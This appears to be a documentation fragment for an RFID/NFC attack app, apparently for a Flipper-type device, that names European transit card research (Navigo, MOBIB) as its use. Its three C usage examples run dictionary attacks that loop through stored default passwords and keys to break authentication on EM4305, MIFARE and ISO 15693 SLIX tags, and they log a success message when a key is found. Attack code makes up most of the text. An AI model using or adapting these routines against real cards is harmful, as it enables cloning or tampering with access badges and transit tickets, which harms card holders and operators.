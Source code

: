 **Usage**: European transit research (Navigo, MOBIB)

---

## 🎯 **USAGE EXAMPLES**

### **Example 1: EM4305 Dictionary Attack**

```c
#include "helpers/predator_crypto_keys.h"

// Iterate through all 40+ passwords
for(uint16_t i = 0; i < EM4305_PASSWORD_COUNT; i++) {
    uint32_t password = EM4305_PASSWORDS[i];
    
    if(em4305_authenticate(app, password)) {
        FURI_LOG_I("Attack", "SUCCESS! Password: %08lX", password);
        break;
    }
}
```

### **Example 2: MIFARE Key Attack**

```c
#include "helpers/predator_crypto_keys.h"

// Try all 20+ MIFARE keys
for(uint8_t i = 0; i < MIFARE_KEY_COUNT; i++) {
    const uint8_t* key = MIFARE_KEYS[i];
    
    if(mifare_authenticate(app, key)) {
        FURI_LOG_I("Attack", "SUCCESS! Key found");
        break;
    }
}
```

### **Example 3: ISO 15693 Attack**

```c
#include "helpers/predator_crypto_keys.h"

// Try all 30+ SLIX passwords
for(uint16_t i = 0; i < ISO15693_PASSWORD_COUNT; i++) {
    uint32_t password = ISO15693_SLIX_PASSWORDS[i];
    
    if(iso15693_try_password(app, password)) {
        FURI_LOG_I("Attack", "SUCCESS! Password: %08lX", password);
        break;
    }
}
```

---